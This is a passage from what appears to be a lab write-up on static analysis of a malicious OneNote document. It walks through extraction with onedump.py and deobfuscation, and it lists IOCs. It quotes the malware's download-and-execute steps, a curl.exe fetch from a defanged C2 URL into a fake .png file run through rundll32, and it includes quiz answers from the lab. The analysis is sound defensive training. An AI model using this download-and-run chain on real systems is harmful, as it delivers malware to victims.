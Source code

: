 This file looks like HTML code containing obfuscated Javascript and VBScript. We will save it using `python3 onedump.py -s 5 -d invoice.one > obj5` and open it in notepad.

{% include figure.liquid path="/assets/img/images/thm_maldoc_static_analysis/SyA0QkEg1g.png" title="OneNote obfuscated code" class="img-fluid rounded z-depth-1" %}

This extraction results in some interesting obfuscated code. The javascript part clearly uses a *replace* function to remove `5&` from the string.

{% include figure.liquid path="/assets/img/images/thm_maldoc_static_analysis/rJw5Nk4e1l.png" title="OneNote deobfuscated code" class="img-fluid rounded z-depth-1" %}

Now, the code makes more sense and contains some important IOCs. To sum up the findings:

- The OneNote document contains **two suspicious HTML** objects.
- This script contains **obfuscated code**, which is cleared out by removing `5&`.
- The script **writes the deobfuscated script to the registry** `HKCU\\SOFTWARE\\Andromedia\\Mp4ToAvi\\Values`.
- **Runs the script**.
- **C2 domain** is `hxxps[:]//unitedmedicalspecialties[.]com/T1Gpp/OI.png`.
- It **downloads the payload** using *cURL* and outputs the payload into *index1.png* with `curl.exe --output C:\\\\ProgramData\\\\index1.png --url " + url, 0);`.
- **Sleeps for 15 seconds** using `sleep(15000)`.
- **Runs the payload** using *rundll32* -> `shell.shellexecute("rundll32", "C:\\ProgramData\\index1.png,Wind", "", "open", 3);`.
- **Deletes the registry entry**.

### Questions

**What is the value used in the sleep function?**

*Answer: `15000`*

**The cURL command is being used to download from a URL and saving the payload in a png file. What is that file name?**

*Answer: `index1.png`*

**How many objects are found in the *invoice.one* document?**

It is known by checking how many objects are listed in `onedump.py`.

*Answer: `6`*

## Task 10 - Conclusion

In conclusion, we have examined various document file types and explored how they can be weaponized in cyberattacks. Our focus was primarily on the PDF format, where we learned to perform static analysis by inspecting obfuscated JavaScript. We also explored 97-2003 Word documents, extracting Indicators of Compromise (IOCs) from VBA macros, and analyzed OneNote files, particularly those containing HTML embedded objects with obfuscated JavaScript and VBS code.

Future modules will delve into more advanced topics, such as dynamic document analysis and deobfuscating scripts like PowerShell, JavaScript, and VBScript.
